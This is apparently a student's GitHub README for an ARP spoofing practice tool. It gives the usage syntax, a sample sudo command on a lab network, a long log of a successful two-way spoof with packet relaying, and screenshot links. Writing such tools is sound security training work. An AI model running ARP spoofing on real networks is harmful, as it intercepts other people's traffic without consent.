 # arp-spoofing
arp spoofing practice
```
syntax : arp-spoof <interface> <sender ip 1> <target ip 1> [<sender ip 2> <target ip 2>...]
sample : arp-spoof wlan0 192.168.10.2 192.168.10.1 192.168.10.1 192.168.10.2
```
------------------------
## Sample execution
### Used devices
attacker (linux guest os) <br>
sender (iphone, KITRI_DEV) <br>
target (KITRI_DEV, iphone) <br>

### Log
```
oxdjww@oxdjww-virtual-machine:~/Desktop/gilgil/arp-spoofing$ sudo ./arp-spoof ens33 10.1.1.150 10.1.1.1 10.1.1.1 10.1.1.150

----------------------------------------
[*] arp-spoof #1..
----------------------------------------

----------------------------------------
[*] get host info..
----------------------------------------
[+] attackerIp   : 10.1.1.96
[+] attackerMac  : 00:0C:29:C9:33:3C

----------------------------------------
[*] get sender Info..
----------------------------------------

----------------------------------------
[*] Arp packet sending succeeded!
----------------------------------------
[+] senderIp    : 10.1.1.150
[+] senderMac   : AA:CA:47:90:49:E0

----------------------------------------
[*] get target Info..
----------------------------------------

----------------------------------------
[*] Arp packet sending succeeded!
----------------------------------------
[+] targetIp    : 10.1.1.1
[+] targetMac   : 88:36:6C:9F:83:3C

----------------------------------------
[*] arp-spoof #2..
----------------------------------------

----------------------------------------
[*] get host info..
----------------------------------------
[+] attackerIp   : 10.1.1.96
[+] attackerMac  : 00:0C:29:C9:33:3C

----------------------------------------
[*] get sender Info..
----------------------------------------

----------------------------------------
[*] Arp packet sending succeeded!
----------------------------------------
[+] senderIp    : 10.1.1.1
[+] senderMac   : 88:36:6C:9F:83:3C

----------------------------------------
[*] get target Info..
----------------------------------------

----------------------------------------
[*] Arp packet sending succeeded!
----------------------------------------
[+] targetIp    : 10.1.1.150
[+] targetMac   : AA:CA:47:90:49:E0

----------------------------------------
[*] Arp packet sending succeeded!
----------------------------------------

----------------------------------------
[*] Arp packet sending succeeded!
----------------------------------------

----------------------------------------
[*] Ip packet relaying succeeded!
----------------------------------------

----------------------------------------
[*] Ip packet relaying succeeded!
----------------------------------------

----------------------------------------
[*] Arp packet sending succeeded!
----------------------------------------
...
```

### References
#### Spoofed Ip packet (ICMP Request)
![infected_request](https://github.com/bob-12th/arp-spoofing/assets/102507306/0e4dc282-ff32-478b-955d-998721bd7c4e)
#### Relaying Ip packet (ICMP Request)
![relay_request](https://github.com/bob-12th/arp-spoofing/assets/102507306/082ba524-0ce0-4804-b27f-345e6c36a70c)
#### Receiving Ip packet (ICMP Reply)
![reply](https://github.com/bob-12th/arp-spoofing/assets/102507306/ea66d68b-0e9c-47b2-b110-545b211fbd04)

